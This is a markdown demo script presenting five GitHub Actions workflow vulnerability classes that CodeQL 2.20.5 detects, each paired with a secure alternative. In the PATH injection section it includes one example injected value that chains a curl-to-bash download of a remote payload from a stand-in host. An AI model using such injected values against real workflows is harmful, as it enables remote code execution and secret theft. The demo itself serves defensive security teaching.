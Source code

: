 # CodeQL 2.20.5 GitHub Actions Workflow Security Demo

## Demo Setup Instructions

1. Create a new public GitHub repository
2. Add the vulnerable workflow files from the "Vulnerable GitHub Actions Workflow Examples" to your repository
3. Enable GitHub Advanced Security and set up CodeQL scanning
4. Set up the updated CodeQL 2.20.5 version (if you are using Advanced setup)
5. Run a scan against your repository

## Demo Script

### Introduction (2 minutes)

"Today we're demonstrating the new analysis capabilities for GitHub Actions workflows introduced in CodeQL 2.20.5. This update includes five new security queries specifically designed to detect common security risks in GitHub Actions workflows."

### Vulnerability 1: PATH Injection (3 minutes)

**Show the vulnerable workflow:** `path-injection.yml`

"This workflow takes user input from an issue title and adds it directly to the PATH environment variable. This is problematic because:"

- An attacker could add a path like `/tmp;curl -s malicious.com/payload | bash;`
- This would execute arbitrary commands during workflow execution
- This could lead to secret exposure or repository compromise

**Show the CodeQL alert** that identifies this vulnerability

**Show the secure alternative:** `secure-path.yml`

### Vulnerability 2: Environment Variable Injection (3 minutes)

**Show the vulnerable workflow:** `envvar-injection.yml`

"This workflow puts user input directly into environment variables without sanitization. This allows attackers to:"

- Inject newlines to set additional environment variables
- Use GitHub's expression syntax with `{{{ }}}` to access secrets
- Influence subsequent steps in unexpected ways

**Show the CodeQL alert** that identifies this vulnerability

**Show the secure alternative:** `secure-envvar.yml`

### Vulnerability 3: Code Injection (3 minutes)

**Show the vulnerable workflow:** `code-injection.yml`

"This workflow is particularly dangerous as it directly executes user-provided content:"

- An attacker could include shell commands in the issue body
- These commands execute with the permissions of the workflow
- This could expose repository secrets or compromise dependencies

**Show the CodeQL alert** that identifies this vulnerability

**Show the secure alternative:** `secure-code-execution.yml`

### Vulnerability 4: Artifact Poisoning (3 minutes)

**Show the vulnerable workflow:** `artifact-poisoning.yml`

"This workflow downloads and executes artifacts without proper verification:"

- Attackers could potentially supply malicious artifacts
- The workflow executes these without validation
- This creates a supply chain vulnerability

**Show the CodeQL alert** that identifies this vulnerability

**Show the secure alternative:** `secure-artifact.yml`

### Vulnerability 5: Untrusted Checkout (3 minutes)

**Show the vulnerable workflow:** `untrusted-checkout.yml`

"This workflow uses `pull_request_target` (which has access to secrets) but checks out code from a PR:"

- `pull_request_target` runs with repository permissions and access to secrets
- Checking out PR code means untrusted code runs with these elevated permissions
- A malicious PR could extract secrets or modify repository settings

**Show the CodeQL alert** that identifies this vulnerability

**Show the secure alternative:** `secure-pr-handling.yml`

### Demo: Before/After Comparison (3 minutes)

"Let's compare the results we get from an older version of CodeQL with what 2.20.5 detects:"

- Show a comparison between old and new scan results
- Highlight that these vulnerabilities would have been missed previously

### Q&A (5 minutes)

"I hope this demo has helped illustrate the new security capabilities in CodeQL 2.20.5 for GitHub Actions workflows. Let's open it up for questions."

## Key Takeaways

1. GitHub Actions workflows can introduce serious security vulnerabilities if not properly secured
2. The new CodeQL queries help identify five common patterns that could lead to security breaches
3. Most vulnerabilities stem from improper handling of user-controlled input
4. Following security best practices for GitHub Actions significantly reduces risks
5. Regularly scanning with the latest CodeQL version helps detect these issues early
